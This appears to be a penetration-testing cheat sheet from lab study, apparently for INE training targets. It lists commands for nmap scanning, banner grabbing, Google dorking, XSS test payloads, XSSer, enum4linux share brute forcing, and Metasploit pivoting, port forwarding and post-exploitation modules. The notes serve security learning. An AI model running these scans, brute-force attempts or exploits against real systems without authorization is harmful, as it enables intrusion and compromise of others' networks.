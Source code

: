 ## Networking

Check routing table information

```
$ route 
$ ip route
```

Add a network to current route

```
 ip route add <network_ip>/<cidr> via <gateway_ip> dev <network_card_name>
 
```
### Example
```
$ ip route add 192.168.10.0/24 via 10.175.3.1 dev eth1
```

```
$ route add -net 192.168.10.0 netmask 255.255.255.0 gw 10.175.3.1
```
## Footprinting & Scanning

Find live hosts with fping or nmap

```
$ fping -a -g 172.16.100.40/24 2>/dev/null | tee alive_hosts.txt
```

```
$ nmap -sn 172.16.100.40/24 -oN alive_hosts.txt

```


### nmap scan types
```
-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sn: Not Port Scan
-sV: Service Version information
-O: Operating System information
```

```
nmap --script=mysql-*
nmap -p27017 --script=mongodb-brute target-2
```

## Subdomain Enumeration

- [Sublist3r](https://github.com/aboul3la/Sublist3r)
- [DNSdumpster](https://dnsdumpster.com/)


## Web Server Fingerprinting

Use netcat for HTTP banner grabbing:
```
$ nc <target addr> 80
HEAD / HTTP/1.0
```

Use OpenSSL for HTTPS banner grabbing:
```
$ openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

httprint is a web fingerprinting tool that uses **signature-based** technique
to identify web servers. This is more accurate since sysadmins can customize
web server banners.

```
$ httprint -P0 -h <target hosts> -s <signature file>
```

## Google Hacking

site:
intitle:
inurl:
filetype:
AND, OR, &, |

```
Example : inurl:admin intitle:login
```
[Google Hacking Database ](https://www.exploit-db.com/google-hacking-database)

## XXS (Cross Site  Scripting)

Look to exploit user input coming from:
- Request headers
- Cookies
- Form inputs
- POST parameters
- GET parameters

Check for XSS
```
<script>alert(1)</script>
<i>some text</i>
```

Steal cookies:
```
<script>alert(document.cookie)</script>
```

### Xsser Tool 

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

target_host=XSS > Is Variable

```

 ## XSSer's "--auto" option

 ```
 xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

 ```
## Using custom XSS payload

 ```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"

 ```

 In Burp Suite, replace the POST parameters with the final attack 

```
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

```
## Enum4linux 
- enum4linux -U # enum Users
- enum4linux -d -S # detail and Share list
- enum4linux -n # nbstat if server avaible you got <20>
- enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt # share brute force


# Meterpreter Rooting
## pivot to the otherwise unreachanble network
```
run autoroute -s 192.69.228.0 -n 255.255.255.0
``````
> background
> 
> route print

```
route add 192.69.228.0 255.255.255.0 1
```
## Scan subnet with msf
```
use auxiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit
```
## Forwarding the remote port to local port
```
portfwd add -l 1234 -p 21 -r 192.69.228.3
portfwd list
```
```
background
nmap -sS -sV -p 1234 localhost
```
# Meterpreter Post-Exploitation
## Enum_users_Information

```
use post/linux/gather/enum_users_history
```
## Setting Proxy Socks

```
use auxiliary/server/socks_proxy
```
# Meterpreter mysql
## remote server 
```
exploit/multi/mysql/mysql_udf_payload
```

